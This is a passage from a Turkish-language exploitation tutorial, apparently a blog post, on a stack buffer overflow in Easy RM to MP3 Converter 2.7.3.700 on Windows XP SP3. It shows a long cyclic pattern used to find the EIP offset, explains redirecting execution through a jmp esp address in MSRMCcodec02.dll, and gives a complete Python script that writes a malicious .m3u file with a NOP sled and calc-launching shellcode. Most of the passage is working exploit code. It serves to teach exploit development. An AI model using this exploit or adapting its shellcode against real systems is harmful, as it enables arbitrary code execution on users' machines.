gfyagfzaggbaggcaggdaggeaggfagggagghaggiaggjaggkagglaggmaggnaggoaggpaggqaggraggsaggtagguaggvaggwaggxaggyaggzaghbaghcaghdagheaghfaghgaghhaghiaghjaghkaghlaghmaghnaghoaghpaghqaghraghsaghtaghuaghvaghwaghxaghyaghzagibagicagidagieagifagigagihagiiagijagikagilagimaginagioagipagiqagiragisagitagiuagivagiwagixagiyagizagjbagjcagjdagjeagjfagjgagjhagjiagjjagjkagjlagjmagjnagjoagjpagjqagjragjsagjtagjuagjvagjwagjxagjyagjzagkbagkcagkdagkeagkfagkgagkhagkiagkjagkkagklagkmagknagkoagkpagkqagkragksagktagkuagkvagkwagkxagkyagkzaglbaglcagldagleaglfaglgaglhagliagljaglkagllaglmaglnagloaglpaglqaglraglsagltagluaglvaglwaglxaglyaglzagmbagmcagmdagmeagmfagmgagmhagmiagmjagmkagmlagmmagmnagmoagmpagmqagmragmsagmtagmuagmvagmwagmxagmyagmzagnbagncagndagneagnfagngagnhagniagnjagnkagnlagnmagnnagnoagnpagnqagnragnsagntagnuagnvagnwagnxagnyagnzagobagocagodagoeagofagogagohagoiagojagokagolagomagonagooagopagoqagoragosagotagouagovagowagoxagoyagozagpbagpcagpdagpeagpfagpgagphagpiagpjagpkagplagpmagpnagpoagppagpqagpragpsagptagpuagpvagpwagpxagpyagpzagqbagqcagqdagqeagqfagqgagqhagqiagqjagqkagqlagqmagqnagqoagqpagqqagqragqsagqtagquagqvagqwagqxagqyagqzagrbagrcagrdagreagrfagrgagrhagriagrjagrkagrlagrmagrnagroagrpagrqagrragrsagrtagruagrvagrwagrxagryagrzagsbagscagsdagseagsfagsgagshagsiagsjagskagslagsmagsnagsoagspagsqagsragssagstagsuagsvagswagsxagsyagszagtbagtcagtdagteagtfagtgagthagtiagtjagtkagtlagtmagtnagtoagtpagtqagtragtsagttagtuagtvagtwagtxagtyagtzagubagucagudagueagufagugaguhaguiagujagukagulagumagunaguoagupaguqaguragusagutaguuaguvaguwaguxaguyaguzagvbagvcagvdagveagvfagvgagvhagviagvjagvkagvlagvmagvnagvoagvpagvqagvragvsagvtagvuagvvagvwagvxagvyagvzagwbagwcagwdagweagwfagwgagwhagwiagwjagwkagwlagwmagwnagwoagwpagwqagwragwsagwtagwuagwvagwwagwxagwyagwzagxbagxcagxdagxeagxfagxgagxhagxiagxjagxkagxlagxmagxnagxoagxpagxqagxragxsagxtagxuagxvagxwagxxagxyagxzagybagycagydagyeagyfagygagyhagyiagyjagykagylagymagynagyoagypagyqagyragysagytagyuagyvagywagyxagyyagyzagzbagzcagzdagzeagzfagzgagzhagziagzjagzkagzlagzmagznagzoagzpagzqagzragzsagztagzuagzvagzwagzxagzyagzzahahaiahajahakahalahamahanahaoahapahaqaharahasahatahauahavahawahaxahayahazahbbahbcahbdahbeahbfahbgahbhahbiahbjahbkahblahbmahbnahboahbpahbqahbrahbsahbtahbuahbvahbwahbxahbyahbzahcbahccahcdahceahcfahcgahchahciahcjahckahclahcmahcnahcoahcpahcqahcrahcsahctahcuahcvahcwahcxahcyahczahdbahdcahddahdeahdfahdgahdhahdiahdjahdkahdlahdmahdnahdoahdpahdqahdrahdsahdtahduahdvahdwahdxahdyahdzahebahecahedaheeahefahegahehaheiahejahekahelahemahenaheoahepaheqaherahesahetaheuahevahewahexaheyahezahfbahfcahfdahfeahffahfgahfhahfiahfjahfkahflahfmahfnahfoahfpahfqahfrahfsahftahfuahfvahfwahfxahfyahfzahgbahgcahgdahgeahgfahggahghahgiahgjahgkahglahgmahgnahgoahgpahgqahgrahgsahgtahguahgvahgwahgxahgyahgzahhbahhcahhdahheahhfahhgahhhahhiahhjahhkahhlahhmahhnahhoahhpahhqahhrahhsahhtahhuahhvahhwahhxahhyahhzahibahicahidahieahifahigahihahiiahijahikahilahimahinahioahipahiqahirahisahitahiuahivahiwahixahiyahizahjbahjcahjdahjeahjfahjgahjhahjiahjjahjkahjlahjmahjnahjoahjpahjqahjrahjsahjtahjuahjvahjwahjxahjyahjzahkbahkcahkdahkeahkfahkgahkhahkiahkjahkkahklahkmahknahkoahkpahkqahkrahksahktahkuahkvahkwahkxahkyahkzahlbahlcahldahleahlfahlgahlhahliahljahlkahllahlmahlnahloahlpahlqahlrahlsahltahluahlvahlwahlxahlyahlzahmbahmcahmdahmeahmfahmgahmhahmiahmjahmkahmlahmmahmnahmoahmpahmqahmrahmsahmtahmuahmvahmwahmxahmyahmzahnbahncahndahneahnfahngahnhahniahnjahnkahnlahnmahnnahnoahnpahnqahnrahnsahntahnuahnvahnwahnxahnyahnzahobahocahodahoeahofahogahohahoiahojahokaholahomahonahooahopahoqahorahosahotahouahovahowahoxahoyahozahpbahpcahpdahpeahpfahpgahphahpiahpjahpkahplahpmahpnahpoahppahpqahprahpsahptahpuahpvahpwahpxahpyahpzahqbahqcahqdahqeahqfahqgahqhahqiahqjahqkahqlahqmahqnahqoahqpahqqahqrahqsahqtahquahqvahqwahqxahqyahqzahrbahrcahrdahreahrfahrgahrhahriahrjahrkahrlahrmahrnahroahrpahrqahrrahrsahrtahruahrvahrwahrxahryahrzahsbahscahsdahseahsfahsgahshahsiahsjahskahslahsmahsnahsoahspahsqahsrahssahstahsuahsvahswahsxahsyahszahtbahtcahtdahteahtfahtgahthahtiahtjahtkahtlahtmahtnahtoahtpahtqahtrahtsahttahtuahtvahtwahtxahtyahtzahubahucahudahueahufahugahuhahuiahujahukahulahumahunahuoahupahuqahurahusahutahuuahuvahuwahuxahuyahuzahvbahvcahvdahveahvfahvgahvhahviahvjahvkahvlahvmahvnahvoahvpahvqahvrahvsahvtahvuahvvahvwahvxahvyahvzahwbahwcahwdahweahwfahwgahwhahwiahwjahwkahwlahwmahwnahwoahwpahwqahwrahwsahwtahwuahwvahwwahwxahwyahwzahxbahxcahxdahxeahxfahxgahxhahxiahxjahxkahxlahxmahxnahxoahxpahxqahxrahxsahxtahxuahxvahxwahxxahxyahxzahybahycahydahyeahyfahygahyhahyiahyjahykahylahymahynahyoahypahyqahyrahysahytahyuahyvahywahyxahyyahyzahzbahzcahzdahzeahzfahzgahzhahziahzjahzkahzlahzmahznahzoahzpahzqahzrahzsahztahzuahzvahzwahzxahzyahzzaiaiajaiakaialaiamaianaiaoaiapaiaqaiaraiasaiataiauaiavaiawaiaxaiayaiazaibbaibcaibdaibeaibfaibgaibhaibiaibjaibkaiblaibmaibnaiboaibpaibqaibraibsaibtaibuaibvaibwaibxaibyaibzaicbaiccaicdaiceaicfaicgaichaiciaicjaickaiclaicmaicnaicoaicpaicqaicraicsaictaicuaicvaicwaicxaicyaiczaidbaidcaiddaideaidfaidgaidhaidiaidjaidkaidlaidmaidnaidoaidpaidqaidraidsaidtaiduaidvaidwaidxaidyaidzaiebaiecaiedaieeaiefaiegaiehaieiaiejaiekaielaiemaienaieoaiepaieqaieraiesaietaieuaievaiewaiexaieyaiezaifbaifcaifdaifeaiffaifgaifhaifiaifjaifkaiflaifmaifnaifoaifpaifqaifraifsaiftaifuaifvaifwaifxaifyaifzaigbaigcaigdaigeaigfaiggaighaigiaigjaigkaiglaigmaignaigoaigpaigqaigraigsaigtaiguaigvaigwaigxaigyaigzaihbaihcaihdaiheaihfaihgaihhaihiaihjaihkaihlaihmaihnaihoaihpaihqaihraihsaihtaihuaihvaihwaihxaihyaihzaiibaiicaiidaiieaiifaiigaiihaiiiaiijaiikaiilaiimaiinaiioaiipaiiqaiiraiisaiitaiiuaiivaiiwaiixaiiyaiizaijbaijcaijdaijeaijfaijgaijhaijiaijjaijkaijlaijmaijnaijoaijpaijqaijraijsaijtaijuaijvaijwaijxaijyaijzaikbaikcaikdaikeaikfaikgaikhaikiaikjaikkaiklaikmaiknaikoaikpaikqaikraiksaiktaikuaikvaikwaikxaikyaikzailbailcaildaileailfailgailhailiailjailkaillailmailnailoailpailqailrailsailtailuailvailwailxailyailzaimbaimcaimdaimeaimfaimgaimhaimiaimjaimkaimlaimmaimnaimoaimpaimqaimraimsaimtaimuaimvaimwaimxaimyaimzainbaincaindaineainfaingainhainiainjainkainlainmainnainoainpainqainrainsaintainuainvainwainxainyainzaiobaiocaiodaioeaiofaiogaiohaioiaiojaiokaiolaiomaionaiooaiopaioqaioraiosaiotaiouaiovaiowaioxaioyaiozaipbaipcaipdaipeaipfaipgaiphaipiaipjaipkaiplaipmaipnaipoaippaipqaipraipsaiptaipuaipvaipwaipxaipyaipzaiqbaiqcaiqdaiqeaiqfaiqgaiqhaiqiaiqjaiqkaiqlaiqmaiqnaiqoaiqpaiqqaiqraiqsaiqtaiquaiqvaiqwaiqxaiqyaiqzairbaircairdaireairfairgairhairiairjairkairlairmairnairoairpairqairrairsairtairuairvairwairxairyairzaisbaiscaisdaiseaisfaisgaishaisiaisjaiskaislaismaisnaisoaispaisqaisraissaistaisuaisvaiswaisxaisyaiszaitbaitcaitdaiteaitfaitgaithaitiaitjaitkaitlaitmaitnaitoaitpaitqaitraitsaittaituaitvaitwaitxaityaitzaiubaiucaiudaiueaiufaiugaiuhaiuiaiujaiukaiulaiumaiunaiuoaiupaiuqaiuraiusaiutaiuuaiuvaiuwaiuxaiuyaiuzaivbaivcaivdaiveaivfaivgaivhaiviaivjaivkaivlaivmaivnaivoaivpaivqaivraivsaivtaivuaivvaivwaivxaivyaivzaiwbaiwcaiwdaiweaiwfaiwgaiwhaiwiaiwjaiwkaiwlaiwmaiwnaiwoaiwpaiwqaiwraiwsaiwtaiwuaiwvaiwwaiwxaiwyaiwzaixbaixcaixdaixeaixfaixgaixhaixiaixjaixkaixlaixmaixnaixoaixpaixqaixraixsaixtaixuaixvaixwaixxaixyaixzaiybaiycaiydaiyeaiyfaiygaiyhaiyiaiyjaiykaiylaiymaiynaiyoaiypaiyqaiyraiysaiytaiyuaiyvaiywaiyxaiyyaiyzaizbaizcaizdaizeaizfaizgaizhaiziaizjaizkaizlaizmaiznaizoaizpaizqaizraizsaiztaizuaizvaizwaizxaizyaizzajajakajalajamajanajaoajapajaqajarajasajatajauajavajawajaxajayajazajbbajbcajbdajbeajbfajbgajbhajbiajbjajbkajblajbmajbnajboajbpajbqajbrajbsajbtajbuajbvajbwajbxajbyajbzajcbajccajcdajceajcfajcgajchajciajcjajckajclajcmajcnajcoajcpajcqajcrajcsajctajcuajcvajcwajcxajcyajczajdbajdcajddajdeajdfajdgajdhajdiajdjajdkajdlajdmajdnajdoajdpajdqajdrajdsajdtajduajdvajdwajdxajdyajdzajebajecajedajeeajefajegajehajeiajejajekajelajemajenajeoajepajeqajerajesajetajeuajevajewajexajeyajezajfbajfcajfdajfeajffajfgajfhajfiajfjajfkajflajfmajfnajfoajfpajfqajfrajfsajftajfuajfvajfwajfxajfyajfzajgbajgcajgdajgeajgfajggajghajgiajgjajgkajglajgmajgnajgoajgpajgqajgrajgsajgtajguajgvajgwajgxajgyajgzajhbajhcajhdajheajhfajhgajhhajhiajhjajhkajhlajhmajhnajhoajhpajhqajhrajhsajhtajhuajhvajhwajhxajhyajhzajibajicajidajieajifajigajihajiiajijajikajilajimajinajioajipajiqajirajisajitajiuajivajiwajixajiyajizajjbajjcajjdajjeajjfajjgajjhajjiajjjajjkajjlajjmajjnajjoajjpajjqajjrajjsajjtajjuajjvajjwajjxajjyajjzajkbajkcajkdajkeajkfajkgajkhajkiajkjajkkajklajkmajknajkoajkpajkqajkrajksajktajkuajkvajkwajkxajkyajkzajlbajlcajldajleajlfajlgajlhajliajljajlkajllajlmajlnajloajlpajlqajlrajlsajltajluajlvajlwajlxajlyajlzajmbajmcajmdajmeajmfajmgajmhajmiajmjajmkajmlajmmajmnajmoajmpajmqajmrajmsajmtajmuajmvajmwajmxajmyajmzajnbajncajndajneajnfajngajnhajniajnjajnkajnlajnmajnnajnoajnpajnqajnrajnsajntajnuajnvajnwajnxajnyajnzajobajocajodajoeajofajogajohajoiajojajokajolajomajonajooajopajoqajorajosajotajouajovajowajoxajoyajozajpbajpcajpdajpeajpfajpgajphajpiajpjajpkajplajpmajpnajpoajppajpqajprajpsajptajpuajpvajpwajpxajpyajpzajqbajqcajqdajqeajqfajqgajqhajqiajqjajqkajqlajqmajqnajqoajqpajqqajqrajqsajqtajquajqvajqwajqxajqyajqzajrbajrcajrdajreajrfajrgajrhajriajrjajrkajrlajrmajrnajroajrpajrqajrrajrsajrtajruajrvajrwajrxajryajrzajsbajscajsdajseajsfajsgajshajsiajsjajskajslajsmajsnajsoajspajsqajsrajssajstajsuajsvajswajsxajsyajszajtbajtcajtdajteajtfajtgajthajtiajtjajtkajtlajtmajtnajtoajtpajtqajtrajtsajttajtuajtvajtwajtxajtyajtzajubajucajudajueajufajugajuhajuiajujajukajulajumajunajuoajupajuqajurajusajutajuuajuvajuwajuxajuyajuzajvbajvcajvdajveajvfajvgajvhajviajvjajvkajvlajvmajvnajvoajvpajvqajvrajvsajvtajvuajvvajvwajvxajvyajvzajwbajwcajwdajweajwfajwgajwhajwiajwjajwkajwlajwmajwnajwoajwpajwqajwrajwsajwtajwuajwvajwwajwxajwyajwzajxbajxcajxdajxeajxfajxgajxhajxiajxjajxkajxlajxmajxnajxoajxpajxqajxrajxsajxtajxuajxvajxwajxxajxyajxzajybajycajydajyeajyfajygajyhajyiajyjajykajylajymajynajyoajypajyqajyrajysajytajyuajyvajywajyxajyyajyzajzbajzcajzdajzeajzfajzgajzhajziajzjajzkajzlajzmajznajzoajzpajzqajzrajzsajztajzuajzvajzwajzxajzyajzzakakalakamakanakaoakapakaqakarakasakatakauakavakawakaxakayakazakbbakbcakbdakbeakbfakbgakbhakbiakbjakbkakblakbmakbnakboakbpakbqakbrakbsakbtakbuakbvakbwakbxakbyakbzakcbakccakcdakceakcfakcgakchakciakcjakckakclakcmakcnakcoakcpakcqakcrakcsakctakcuakcvakcwakcxakcyakczakdbakdcakddakdeakdfakdgakdhakdiakdjakdkakdlakdmakdnakdoakdpakdqakdrakdsakdtakduakdvakdwakdxakdyakdzakebakecakedakeeakefakegakehakeiakejakekakelakemakenakeoakepakeqakerakesaketakeuakevakewakexakeyakezakfbakfcakfdakfeakffakfgakfhakfiakfjakfkakflakfmakfnakfoakfpakfqakfrakfsakftakfuakfvakfwakfxakfyakfzakgbakgcakgdakgeakgfakggakghakgiakgjakgkakglakgmakgnakgoakgpakgqakgrakgsakgtakguakgvakgwakgxakgyakgzakhbakhcakhdakheakhfakhgakhhakhiakhjakhkakhlakhmakhnakhoakhpakhqakhrakhsakhtakhuakhvakhwakhxakhyakhzakibakicakidakieakifakigakihakiiakijakikakilakimakinakioakipakiqakirakisakitakiuakivakiwakixakiyakizakjbakjcakjdakjeakjfakjgakjhakjiakjjakjkakjlakjmakjnakjoakjpakjqakjrakjsakjtakjuakjvakjwakjxakjyakjzakkbakkcakkdakkeakkfakkgakkhakkiakkjakkkakklakkmakknakkoakkpakkqakkrakksakktakkuakkvakkwakkxakkyakkzaklbaklcakldakleaklfaklgaklhakliakljaklkakllaklmaklnakloaklpaklqaklraklsakltakluaklvaklwaklxaklyaklzakmbakmcakmdakmeakmfakmgakmhakmiakmjakmkakmlakmmakmnakmoakmpakmqakmrakmsakmtakmuakmvakmwakmxakmyakmzaknbakncakndakneaknfakngaknhakniaknjaknkaknlaknmaknnaknoaknpaknqaknraknsakntaknuaknvaknwaknxaknyaknzakobakocakodakoeakofakogakohakoiakojakokakolakomakonakooakopakoqakorakosakotakouakovakowakoxakoyakozakpbakpcakpdakpeakpfakpgakphakpiakpjakpkakplakpmakpnakpoakppakpqakprakpsakptakpuakpvakpwakpxakpyakpzakqbakqcakqdakqeakqfakqgakqhakqiakqjakqkakqlakqmakqnakqoakqpakqqakqrakqsakqtakquakqvakqwakqxakqyakqzakrbakrcakrdakreakrfakrgakrhakriakrjakrkakrlakrmakrnakroakrpakrqakrrakrsakrtakruakrvakrwakrxakryakrzaksbakscaksdakseaksfaksgakshaksiaksjakskakslaksmaksnaksoakspaksqaksrakssakstaksuaksvakswaksxaksyakszaktbaktcaktdakteaktfaktgakthaktiaktjaktkaktlaktmaktnaktoaktpaktqaktraktsakttaktuaktvaktwaktxaktyaktzakubakucakudakueakufakugakuhakuiakujakukakulakumakunakuoakupakuqakurakusakutakuuakuvakuwakuxakuyakuzakvbakvcakvdakveakvfakvgakvhakviakvjakvkakvlakvmakvnakvoakvpakvqakvrakvsakvtakvuakvvakvwakvxakvyakvzakwbakwcakwdakweakwfakwgakwhakwiakwjakwkakwlakwmakwnakwoakwpakwqakwrakwsakwtakwuakwvakwwakwxakwyakwzakxbakxcakxdakxeakxfakxgakxhakxiakxjakxkakxlakxmakxnakxoakxpakxqakxrakxsakxtakxuakxvakxwakxxakxyakxzakybakycakydakyeakyfakygakyhakyiakyjakykakylakymakynakyoakypakyqakyrakysakytakyuakyvakywakyxakyyakyzakzbakzcakzdakzeakzfakzgakzhakziakzjakzkakzlakzmakznakzoakzpakzqakzrakzsakztakzuakzvakzwakzxakzyakzzalalamalanalaoalapalaqalaralasalatalaualavalawalaxalayalazalbbalbcalbdalbealbfalbgalbhalbialbjalbkalblalbmalbnalboalbpalbqalbralbsalbtalbualbvalbwalbxalbyalbzalcbalccalcdalcealcfalcgalchalcialcjalckalclalcmalcnalcoalcpalcqalcralcsalctalcualcvalcwalcxalcyalczaldbaldcalddaldealdfaldgaldhaldialdjaldkaldlaldmaldnaldoaldpaldqaldraldsaldtaldualdvaldwaldxaldyaldzalebalecaledaleealefalegalehaleialejalekalelalemalenaleoalepaleqaleralesaletaleualevalewalexaleyalezalfbalfcalfdalfealffalfgalfhalfialfjalfkalflalfmalfnalfoalfpalfqalfralfsalftalfualfvalfwalfxalfyalfzalgbalgcalgdalgealgfalggalghalgialgjalgkalglalgmalgnalgoalgpalgqalgralgsalgtalgualgvalgwalgxalgyalgzalhbalhcalhdalhealhfalhgalhhalhialhjalhkalhlalhmalhnalhoalhpalhqalhralhsalhtalhualhvalhwalhxalhyalhzalibalicalidaliealifaligalihaliialijalikalilalimalinalioalipaliqaliralisalitaliualivaliwalixaliyalizaljbaljcaljdaljealjfaljgaljhaljialjjaljkaljlaljmaljnaljoaljpaljqaljraljsaljtaljualjvaljwaljxaljyaljzalkbalkcalkdalkealkfalkgalkhalkialkjalkkalklalkmalknalkoalkpalkqalkralksalktalkualkvalkwalkxalkyalkzallballcalldalleallfallgallhallialljallkalllallmallnalloallpallqallrallsalltalluallvallwallxallyallzalmbalmcalmdalmealmfalmgalmhalmialmjalmkalmlalmmalmnalmoalmpalmqalmralmsalmtalmualmvalmwalmxalmyalmzalnbalncalndalnealnfalngalnhalnialnjalnkalnlalnmalnnalnoalnpalnqalnralnsalntalnualnvalnwalnxalnyalnzalobalocalodaloealofalogalohaloialojalokalolalomalonalooalopaloqaloralosalotaloualovalowaloxaloyalozalpbalpcalpdalpealpfalpgalphalpialpjalpkalplalpmalpnalpoalppalpqalpralpsalptalpualpvalpwalpxalpyalpzalqbalqcalqdalqealqfalqgalqhalqialqjalqka'

# file path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(test)
f.close()
```

Tekrardan Immunity ile programımızı çalıştırıp dosyamızı girelim.



EIP üzerine `64646B61` yazıldığını görüyoruz o halde pwntools aracılığı ile oluşturduğum alanın içerisinde nereye tekabül ediyormuş bakalım. (0x61 => a , 0x6B => k , 0x64 => d , bellekte little endian saklandığı için tersini alarak yazacağız)

```python
>>> test.find(b'akdd')
(26109, 0, 26109)
>>>
```

`26109` karakterden sonra `EIP` üzerine yazabileceğimizi söylemiş . Hemen teyit edelim :)

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

padding = b"A"*26109 + b"BBBB"

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(padding)
f.close()

```


# EXPLOIT

Artık `EIP` registerına müdahale edebiliyoruz. Ama neden EIP ? Nedir bunu bu kadar özel kılan şey diye soracak olursanız eğer bu register bir sonraki çalıştırılacak komutun adresini tutmaktadır (`instruction pointer`) . Biz de bu registera shellcode ' umuzu yüklediğimiz yerin adresine gitmesini söyleyeceğiz. Böylece istediğimiz zararlı kod çalışmış olacak ve exploitimiz tamamlanacak.

Bunun için öncelikle bir adet shellcode'a ihtiyacımız var. Bunun için [corelan.be](corelan.be)'nin yazıda vermiş olduğu ve hesap makinesini açan shellcode'u kullanabiliriz.

```python
calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")
```

[buffer][ebp][eip][arg1][...]

Stack yapımızı bu şekilde düşenebiliriz. 26105 karakter ile bufferımızı dolduruyoruz, 4 karakter ile EBP adresine yazıyoruz , daha sonra yazdığımız 4 karakter EIP üzerine yazılıyor. Burdan sonra 4 karakterlik bir `pre_esp` dolduruyoruz. Devamında shellcode'umuzu gireceğiz.

Burda 2 seçeneğimiz var.

1. seçenek yukardaki resme bakacak olursa EIP üzerine yazdıktan sonra ESP değeri `000FFD38` adresini gösteriyor yani shellcode'u yazacağımız adres. Bu adresi direk `EIP` üzerine yazarak shellcode'umuzun olduğu yere sıçrayabiliriz. Ancak bir sıkıntımız var o da adresimizin başında `0x00` yani null karakter olması. Bu yüzden bu seçeneği eliyoruz. (Null karakteri gördüğü zaman onun yerine başka bir değer yazacağı için adresimiz düzgün yerleşmeyecektir.)

2. seçenekte ise `EIP` üzerine `jmp esp` işlemini gerçekleştiren bir komutun adresini girerek direk `ESP` üzerine sıçrayabiliriz. Bunun için `jmp esp` işlemini gerçekleştiren bir komut bulmamız lazım.

Direk programımızın içerisinde `jmp esp` işlemi yok o yüzden DLL'lere bakmamız lazım. Immunity Debugger'da `View->Executable Modules (ALT+E)` yaparak görebilirsiniz. Bizim kullanacağımız DLL `MSRMCcodec02.dll` olacak.



Adresimiz `01CD39B4` => `\xB4\x39\xCD\x01`

Artık exploitimizi tamamlayabiliriz.

`Not :` calc'dan önce ve sonra NOP (\x90) kullanmamızın sebebi shellcode'un kendine rahatça yer açabilmesi ve `esp`'ye sıçradığımız zaman shellcode'un öncesinde düzgün bir yere sıçrayabilmek.

`Not-2 :` NOP (\x90) komutu kısaca herhangi bir işlem yapmadan devam et anlamına gelmektedir


```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
eip = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pre_esp = b"\x90\x90\x90\x90"
nop = b"\x90"*25

exploit = padding + eip + pre_esp + nop + calc + nop

# File path
file = "EasyRMtoMP3Converter/exploit.m3u"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

# Run Exploit


